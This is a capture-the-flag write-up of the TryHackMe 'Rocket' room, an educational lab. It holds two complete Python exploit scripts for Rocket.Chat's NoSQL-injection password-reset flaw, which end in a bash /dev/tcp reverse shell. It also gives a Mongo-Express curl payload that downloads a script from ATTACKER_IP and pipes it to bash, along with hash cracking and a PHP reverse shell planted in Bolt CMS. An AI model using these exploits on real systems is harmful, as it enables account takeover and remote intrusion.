Box link-- 
https://tryhackme.com/room/rocket

This box is rated hard difficulty on THM. It involves us 

Get ready for blast off!

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.65.172.156 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 18:02 CST
Nmap scan report for 10.65.172.156
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b5:20:37:9f:99:b2:4f:23:ba:3a:43:60:b7:45:c8:62 (RSA)
|   256 12:77:83:03:1f:64:bb:40:5d:bf:2c:48:e2:5a:b5:18 (ECDSA)
|_  256 74:7c:e6:07:78:fc:fd:45:1d:e8:2b:d5:02:66:8e:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://rocket.thm
Service Info: Host: rocket.thm; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Default scripts show that the site redirects us to rocket.thm so I add that to my `/etc/hosts` file. I also fire up Gobuster to start searching for subdirectories/subdomains in the background before heading over to the webpage. The landing page is a typical site for a company selling services, they seem to offer entertainment packages interested customers.


A lot of the site is missing functionality for things like purchasing packages and sending contact forms, but there is a section for their employees which gives us a list of names and their corresponding emails. I'll add those to a wordlist in case we need them for a brute-force or other attacks later on.



Checking around the different tabs shows a few parameters that take in sequential numbers (ie. `page=`), but nothing is injectable. I also can't seem to find a login or admin panel for users here, so let's wait for enumeration to give us anything. While fuzzing for subdomains, I discover that chat responds with a `200 OK` code. 

```
$ ffuf -u http://rocket.thm/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.rocket.thm" --fl 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://rocket.thm/
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.rocket.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

chat                    [Status: 200, Size: 224515, Words: 12566, Lines: 490, Duration: 4804ms]
:: Progress: [19966/19966] :: Job [1/1] :: 917 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

### Chat subdomain
After adding that to my hosts file, I navigate to it and find a login panel for the rocket.chat application. This is actually a real open-source platform, not their own proprietary platform.



We are able to register an account under a user-provided name so we can start testing for exploits internally. Once registered, we're given the option to apply a username that would be displayed to others. I tested this for server-side template injection but nothing come of it.

Since this app is open-source, I do some research on any known vulnerabilities and find some promising results.

```
$ searchsploit rocket.chat            
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Rocket.Chat 2.1.0 - Cross-Site Scripting                                       | linux/webapps/47537.txt
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)                         | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticated) (2)              | linux/webapps/50108.py
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Attempting to capture another user's token via XSS payloads yielded no results, so it seems our version is above `v2.1.0`. If vulnerable, it would've allowed us to just embed a link into a chat message for other users to automatically load and send cookies over the connection.



## NoSQL Injection
The second is [CVE-2021-22911](https://nvd.nist.gov/vuln/detail/CVE-2021-22911), unauthenticated NoSQL injection leading to remote code execution via the administrative privileges over the site. This exploit works due to unsanitized user-input in the Reset Password Token field. Attackers can inject NoSQL payloads using the $regex operator to expose the full token and reset account properties without authentication. 

Now we technically could do this manually, but I'm not sure if the site has a time limit on reset tokens and it would honestly be a bit painful. A bit of digging exposed this [GitHub repository](https://github.com/CsEnox/CVE-2021-22911) containing a PoC to replicate steps for this vulnerability. I had a bit of trouble getting it to run because of the outdated oauthtool module, so here's the revised python exploit script (spoiler, this one doesn't fully work):

```
#!/usr/bin/env python3

import requests
import string
import time
import hashlib
import json
import argparse
import pyotp
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-u', help='Low priv user email [ No 2fa ]', required=True)
parser.add_argument('-a', help='Administrator email', required=True)
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', required=True)
args = parser.parse_args()

adminmail = args.a
lowprivmail = args.u
target = args.t

def forgotpassword(email, url):
    payload = (
        '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",'
        '\\"params\\":[\\"' + email + '\\"]}"}'
    )
    headers = {'content-type': 'application/json'}
    requests.post(
        url + "/api/v1/method.callAnon/sendForgotPasswordEmail",
        data=payload,
        headers=headers,
        verify=False,
        allow_redirects=False
    )
    print("[+] Password Reset Email Sent")

def resettoken(url):
    u = url + "/api/v1/method.callAnon/getPasswordPolicy"
    headers = {'content-type': 'application/json'}
    token = ""

    characters = list(string.ascii_letters + string.digits + "-_")

    while len(token) != 43:
        for c in characters:
            payload = (
                '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",'
                '\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}'
                % (token + c)
            )
            r = requests.post(u, data=payload, headers=headers, verify=False)
            time.sleep(0.5)
            if 'Meteor.Error' not in r.text:
                token += c
                print(f"[+] Token so far: {token}")
                break

    print(f"[+] Got token: {token}")
    return token

def changingpassword(url, token):
    payload = (
        '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",'
        '\\"params\\":[\\"' + token + '\\",\\"P@$$w0rd!1234\\"]}"}'
    )
    headers = {'content-type': 'application/json'}
    r = requests.post(
        url + "/api/v1/method.callAnon/resetPassword",
        data=payload,
        headers=headers,
        verify=False
    )
    if "error" in r.text:
        exit("[-] Wrong token")
    print("[+] Password was changed!")

def authenticate(url, email):
    sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
    payload = (
        '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{'
        '\\"user\\":{\\"email\\":\\"' + email + '\\"},'
        '\\"password\\":{\\"digest\\":\\"' + sha256pass +
        '\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
    )
    headers = {'content-type': 'application/json'}
    r = requests.post(
        url + "/api/v1/method.callAnon/login",
        data=payload,
        headers=headers,
        verify=False
    )
    if "error" in r.text:
        exit("[-] Couldn't authenticate")

    data = json.loads(r.text)['message']
    userid = data[32:49]
    token = data[60:103]
    return userid, token

def twofactor_secret(url, email):
    userid, token = authenticate(url, email)
    cookies = {'rc_uid': userid, 'rc_token': token}
    headers = {'X-User-Id': userid, 'X-Auth-Token': token}

    payload = (
        '/api/v1/users.list?query={"$where"%3a'
        '"this.username%3d%3d%3d\'admin\'+%26%26+(()%3d>{+throw+'
        'this.services.totp.secret+})()"}'
    )

    r = requests.get(url + payload, cookies=cookies, headers=headers)
    secret = r.text[46:98]
    print(f"[+] Got 2FA secret: {secret}")
    return secret

def changingadminpassword(url, token, code):
    payload = (
        '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",'
        '\\"params\\":[\\"' + token +
        '\\",\\"P@$$w0rd!1234\\",{'
        '\\"twoFactorCode\\":\\"' + code +
        '\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
    )
    headers = {'content-type': 'application/json'}
    r = requests.post(
        url + "/api/v1/method.callAnon/resetPassword",
        data=payload,
        headers=headers,
        verify=False
    )
    if "403" in r.text:
        exit("[-] Wrong token")
    print("[+] Admin password changed!")

def rce(url, code, cmd):
    sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
    payload = (
        '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{'
        '\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},'
        '\\"password\\":{\\"digest\\":\\"' + sha256pass +
        '\\",\\"algorithm\\":\\"sha-256\\"}},'
        '\\"code\\":\\"' + code + '\\"}}]}"}'
    )
    headers = {'content-type': 'application/json'}
    r = requests.post(
        url + "/api/v1/method.callAnon/login",
        data=payload,
        headers=headers,
        verify=False
    )

    data = json.loads(r.text)['message']
    userid = data[32:49]
    token = data[60:103]

    payload = (
        '{"enabled":true,"channel":"#general","username":"admin","name":"rce",'
        '"scriptEnabled":true,"script":"const r=console.log.constructor('
        '\'return process.mainModule.require\')();'
        'const{exec}=r(\'child_process\');exec(\'' + cmd +
        '\');","type":"webhook-incoming"}'
    )

    cookies = {'rc_uid': userid, 'rc_token': token}
    headers = {'X-User-Id': userid, 'X-Auth-Token': token}
    r = requests.post(url + '/api/v1/integrations.create',
                      cookies=cookies, headers=headers, data=payload)

    parts = r.text.split(',')
    hook_token = parts[12][9:57]
    hook_id = parts[18][7:24]

    requests.get(url + f'/hooks/{hook_id}/{hook_token}')

# ===========================
# Exploit flow
# ===========================

print(f"[+] Resetting {lowprivmail} password")
forgotpassword(lowprivmail, target)
token = resettoken(target)
changingpassword(target, token)

secret = twofactor_secret(target, lowprivmail)
totp = pyotp.TOTP(secret)

print(f"[+] Resetting {adminmail} password")
forgotpassword(adminmail, target)

admin_reset_token = resettoken(target)
changingadminpassword(target, admin_reset_token, totp.now())

while True:
    cmd = input("CMD> ")
    rce(target, totp.now(), cmd)
```

Due to the nature of NoSQL injection in this field and the fact that the site may be rate limiting our attempts, it'll take a while to complete.

```
$ python3 exploit.py -u "cbev@rocket.thm" -a "admin@rocket.thm" -t "http://chat.rocket.thm"
```



Crap, the script wasn't able to authenticate for some reason. After some debugging without having to run the script in its entirety again, I figure out that it wasn't able to supply a Base32 value to the 2FA field because the administrator's account didn't have it enabled. Either way, the password was still changed to `P@$$w0rd!1234` which works to login via the panel.

There aren't any crazy features on the main page, however we are now able to authenticate to the `/admin` directory without the server throwing a `403 Forbidden` code.



## Initial Foothold
I cut the RCE part out of the script to grab my shell however, this is the final revised script to reset the admin's password and get RCE on the server:

```
#!/usr/bin/env python3

import requests
import string
import time
import hashlib
import json
import argparse
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE (No 2FA)')
parser.add_argument('-t', help='Target URL (http://rocketchat.thm)', required=True)
parser.add_argument('-i', help='Your IP (listener)', required=True)
parser.add_argument('-p', help='Your port (listener)', required=True)
parser.add_argument('-a', help='Admin email', required=True)
args = parser.parse_args()

target = args.t
ip_address = args.i
port = args.p
adminmail = args.a
PASSWORD = "P@$$w0rd!1234"

def forgotpassword(email):
    payload = {
        "message": json.dumps({
            "msg": "method",
            "method": "sendForgotPasswordEmail",
            "params": [email]
        })
    }
    requests.post(
        f"{target}/api/v1/method.callAnon/sendForgotPasswordEmail",
        json=payload,
        verify=False
    )
    print("[+] Password reset email sent")

def resettoken():
    url = f"{target}/api/v1/method.callAnon/getPasswordPolicy"
    headers = {"content-type": "application/json"}
    token = ""
    charset = string.ascii_letters + string.digits + "-_"

    while len(token) != 43:
        for c in charset:
            payload = {
                "message": json.dumps({
                    "msg": "method",
                    "method": "getPasswordPolicy",
                    "params": [{"token": {"$regex": f"^{token}{c}"}}]
                })
            }
            r = requests.post(url, json=payload, headers=headers, verify=False)
            time.sleep(0.4)
            if "Meteor.Error" not in r.text:
                token += c
                print(f"[+] Token: {token}")
                break

    return token

def resetpassword(token):
    payload = {
        "message": json.dumps({
            "msg": "method",
            "method": "resetPassword",
            "params": [token, PASSWORD]
        })
    }
    r = requests.post(
        f"{target}/api/v1/method.callAnon/resetPassword",
        json=payload,
        verify=False
    )
    if "error" in r.text:
        exit("[-] Password reset failed")
    print("[+] Password changed successfully")

def rce():
    sha = hashlib.sha256(PASSWORD.encode()).hexdigest()

    login_payload = {
        "message": json.dumps({
            "msg": "method",
            "method": "login",
            "params": [{
                "user": {"email": adminmail},
                "password": {"digest": sha, "algorithm": "sha-256"}
            }]
        })
    }

    r = requests.post(
        f"{target}/api/v1/method.callAnon/login",
        json=login_payload,
        verify=False
    )

    data = json.loads(r.text)["message"]
    userid = data[32:49]
    token = data[60:103]

    print("[+] Authenticated as admin")

    payload = {
        "enabled": True,
        "channel": "#general",
        "username": "admin",
        "name": "rce",
        "scriptEnabled": True,
        "script": (
            "class Script {\n"
            "  process_incoming_request({ request }) {\n"
            "    const r = console.log.constructor('return process.mainModule.require')();\n"
            "    const { exec } = r('child_process');\n"
            f"    exec('bash -c \"bash -i >& /dev/tcp/{ip_address}/{port} 0>&1\"');\n"
            "  }\n"
            "}"
        ),
        "type": "webhook-incoming"
    }

    headers = {
        "X-User-Id": userid,
        "X-Auth-Token": token
    }

    r = requests.post(
        f"{target}/api/v1/integrations.create",
        json=payload,
        headers=headers,
        verify=False
    )

    data = r.json()["integration"]
    hook_id = data["_id"]
    hook_token = data["token"]

    print("[+] Integration created, triggering RCE...")
    requests.get(f"{target}/hooks/{hook_id}/{hook_token}", verify=False)

print("[*] Resetting admin password")
forgotpassword(adminmail)
token = resettoken()
resetpassword(token)

input("[*] Start nc listener and press Enter...")
rce()
```

Once that's done running, we get a successful shell on the box as rocketchat and can start looking around for ways to escalate privileges to root. Judging by the system's string after our account name, it's obvious we're in a Docker container. The best way to escape containers is by enumerating our permissions and finding an accessible database in order to dump hashes for use elsewhere.



### Docker escape
I use the `env` command to check the environment information, which discloses a MongoDB Web Interface running on port 8081. There's not much else on the system for us so we'll need a way to reach this from out attacking machine for more tools. 



The container doesn't have access to Netcat or any other real networking tools for us to transfer files over, so we'll have to use our clipboard to copy/paste a tunneling tool onto the container. Even though it's larger, I'll be using [Chisel](https://github.com/jpillora/chisel) to port forward the Mongo service to my machine due to it being stable and very easy to use.

If you're unfamiliar, chisel is a fast TCP/UDP tunneling tool that creates encrypted client-server tunnels over HTTP(S), and is commonly used to bypass firewalls and pivot through restricted networks. Attackers or sysadmins can use it to port-forward internal services (local, remote, or SOCKS proxy) by exposing otherwise unreachable ports through the tunnel to their own machine.

```
#Getting Chisel gunzip executable from Github
$ wget https://github.com/jpillora/chisel/releases/download/v1.11.3/chisel_1.11.3_linux_amd64.gz

#Extracting file with 7zip
$ 7z x chisel_1.11.3_linux_amd64.gz

#Converting file to Base64 for clipboard
$ cat chisel | base64 > chisel_base

#Copying file to clipboard
$ xclip -selection clipboard < chisel_base
```

Now that we have Chisel ready to paste, head onto the rocketchat shell and do the following:

```
#Copy file contents into new file
$ cat <<EOF > chisel_base
> #Press SHIFT + INSERT on keyboard to paste entire selection
> #Press enter again after it's been pasted
> #Type EOF and hit enter once again

#Decoding file contents
$ cat chisel_base | base64 -d > chisel

#Adding bit for execution
$ chmod +x chisel

#Forwarding Mongo service on port 8081 to local machine
$ ./chisel server -p 8000 --reverse
```

Finally on our local machine, connect to the reverse proxy:

```
$ ./chisel client MACHINE_IP:8000 R:8081:172.17.0.4:8081
```

Once that's all set up, we can visit the site by going to `localhost:8081` in a browser or using a tool like cURL. Looks like we need authentication before we can access the MongoDB Web Interface.



Using cURL on the webpage shows relatively the same stuff except for the X-Powered-By header showing that it might be the Mongo-Express service.



### Exploiting Mongo-Express
There isn't much else to go off of besides brute-forcing, so I take to Google in order to find any known vulnerabilities for it. This reveals [CVE-2019–10758](https://nvd.nist.gov/vuln/detail/CVE-2019-10758) which explains that versions before 0.54.0 are vulnerable to RCE via endpoints that use the toBSON method. Some more digging gives me this [PoC](https://github.com/masahiro331/CVE-2019-10758) containing a cURL command to execute a reverse shell.

```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("curl http://ATTACKER_IP:9090/reverse_shell.sh | bash")'
```

Once we have a shell through that, I head towards any files containing BSON information to grab any credentials/hashes. Inside of `/backup/backup_db/meteor/` is a `users.bson` file which gives us bcrypt hashes for Laurent and Terrence.



Now let's send those hashes over to Hashcat or JohnTheRipper to get the plaintext version.



### Reverse Shell via Bolt CMS
Only one of them cracks, so now we need somewhere to use it. While enumerating the site at the beginning of this challenge, Wappalyzer showed that it was built using BoltCMS. The default login page for apps using that is `/bolt`, let's try supplying those new-found credentials there.



As with most content management site's, we can grab a reverse shell by just updating the source code for a certain page to contain a PHP payload. In this case, I change `bundles.php` under Configuration -> All configurations files. 



Now setup a listener and refresh the page to proc it. 



## Privilege Esclation
At this point we can grab the user flag under Alvin's home directory and start looking at ways to escalate privileges to root user. Checking the usual things such as SUID bits set, crontabs running personal scripts, or unsecured backups revealed nothing. I did find that the Ruby binary had the `cap_setuid+ep` capability set on it, meaning that we could execute Ruby code as root. 

